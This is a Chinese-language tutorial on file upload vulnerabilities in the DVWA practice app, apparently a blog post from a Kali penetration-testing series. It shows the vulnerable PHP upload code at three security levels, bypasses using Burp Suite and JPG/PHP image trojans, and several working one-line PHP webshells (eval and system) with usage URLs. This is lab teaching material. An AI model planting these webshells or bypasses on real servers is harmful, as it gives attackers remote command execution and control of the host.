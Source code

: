```yaml
---
title: 文件上传漏洞
date: 2021-01-25 16:27:00
categories:
- [Kali从入门到入狱, OWASP安全渗透实战]
tags: Kali
---
```


# 文件上传漏洞

1. 文件上传( File Upload )是大部分web应用都具备的功能，例如用户上传附件、修改头像、分享图片/视频等

2. 正常的文件一般是文档、图片、视频等，web应用收集之后放入后台存储，需要的时候再调用出来返回

3. 如果恶意文件如PHP、ASP等执行文件绕过web应用，并顺利执行，则相当于黑客直接拿到了Webshell

4. 一旦黑客拿到Webshell，则可以拿到web应用的数据，删除web文件，本地提权，进一步拿下整个服务器甚至内网

5. SQL注入攻击的对象是数据库服务，文件上传漏洞主要攻击web服务，实际渗透两种相结合，达到对目标的深度控制

## File Upload

### Security Level：Low

#### File Upload Source

```php
<?php
	if (isset($_POST['Upload'])) {
		$target_path = DVWA_WEB_PAGE_TO_ROOT."hackable/uploads/";
		$target_path = $target_path . basename( $_FILES['uploaded']['name']);

		if(!move_uploaded_file($_FILES['uploaded']['tmp_name'], $target_path)) {

			echo '<pre>';
			echo 'Your image was not uploaded.';
			echo '</pre>';

		} else {

			echo '<pre>';
			echo $target_path . ' succesfully uploaded!';
			echo '</pre>';

		}
	}
?> 
```

后端代码显示，没有对上传文件进行过滤，只要有上传文件就能上传成功

### Security Level：Medium

#### File Upload Source

```php
<?php
	if (isset($_POST['Upload'])) {
		$target_path = DVWA_WEB_PAGE_TO_ROOT."hackable/uploads/";
		$target_path = $target_path . basename($_FILES['uploaded']['name']);
		$uploaded_name = $_FILES['uploaded']['name'];
		$uploaded_type = $_FILES['uploaded']['type'];
		$uploaded_size = $_FILES['uploaded']['size'];

		if (($uploaded_type == "image/jpeg") && ($uploaded_size < 100000)){
			if(!move_uploaded_file($_FILES['uploaded']['tmp_name'], $target_path)) {

				echo '<pre>';
				echo 'Your image was not uploaded.';
				echo '</pre>';

			} else {

				echo '<pre>';
				echo $target_path . ' succesfully uploaded!';
				echo '</pre>';

			}
		}else{
			echo '<pre>Your image was not uploaded.</pre>';
		}
	}
?> 
```

后端代码显示上传文件类型必须为`image/jpeg`，并且上传文件大小必须小于100000字节，约等于97.65625kb

#### 文件上传绕过

使用Burpsuite抓包软件拦截上传文件，对上传文件的类型信息作修改

![burpsuite](https://i.vgy.me/o1yHL6.png)

![burpsuite-modify-content-type](https://i.vgy.me/GhuaYR.png)

#### 使用中国菜刀连接网站

![Cknie-connect](https://i.vgy.me/yPcLCv.png)

![Cknife-succeed](https://i.vgy.me/U1svWC.png)

### Security Level：High

#### File Upload Source

```php
<?php
    if (isset($_POST['Upload'])) {
        $target_path = DVWA_WEB_PAGE_TO_ROOT."hackable/uploads/";
        $target_path = $target_path . basename($_FILES['uploaded']['name']);
        $uploaded_name = $_FILES['uploaded']['name'];
        $uploaded_ext = substr($uploaded_name, strrpos($uploaded_name, '.') + 1);
        $uploaded_size = $_FILES['uploaded']['size'];

        if (($uploaded_ext == "jpg" || $uploaded_ext == "JPG" || $uploaded_ext == "jpeg" || $uploaded_ext == "JPEG") && ($uploaded_size < 100000)){

            if(!move_uploaded_file($_FILES['uploaded']['tmp_name'], $target_path)) {

                echo '<pre>';
                echo 'Your image was not uploaded.';
                echo '</pre>';

            } else {

                echo '<pre>';
                echo $target_path . ' succesfully uploaded!';
                echo '</pre>';

            }
        }else{

            echo '<pre>';
            echo 'Your image was not uploaded.';
            echo '</pre>';

        }
    }
?> 
```

后端代码显示上传文件的后缀必须为`jpg、JPG、jpeg、JPEG`，且文件大小不超过100000字节，此时修改文件类型信息已无用

#### 上传图片马绕过检测

```php
# Webshell.php文件编写内容
<?fputs(fopen("shell0.php", "w"), "<?php @eval($_POST['chopper']); ?>")?>
```

```shell
# Windows命令
copy cat.jpg /b + Webshell.php /a cat0.jpg
```

或者使用`edjpgcom`工具将图片和木马合成，成功上传之后需配合文件包含漏洞使用

## Webshell

- 小马：一句话木马也称为小马，即整个shell代码量只有一行，一般是系统执行函数
- 大马：代码量和功能比小马多，一般会进行二次编码加密，防止被防火墙/入侵系统检测到

### shell1.php

```php
# eval 使用PHP函数,如phpinfo();
<?php @eval($_REQUEST['cmd']); ?>
```

**使用：**`http://192.168.111.18/dvwa/hackable/uploads/shell1.php?cmd=phpinfo();`

### shell2.php

```php
# system 使用Linux系统命令,如ls,cp,rm
<?php system($_REQUEST['ppx']); ?>
```

使用：`http://192.168.111.18/dvwa/hackable/uploads/shell2.php?ppx=id`

查看哪个用户运行的apache

`uid=33(www-data) gid=33(www-data) groups=33(www-data)`

### 中国菜刀

```php
<?php @eval($_POST['chopper']); ?>
# or more simple
<?php eval($_POST[1]); ?>
```

:::info

注：REQUEST是在网页端输入变量访问，POST则是使用中国菜刀之类的工具连接,是 C / S 架构

:::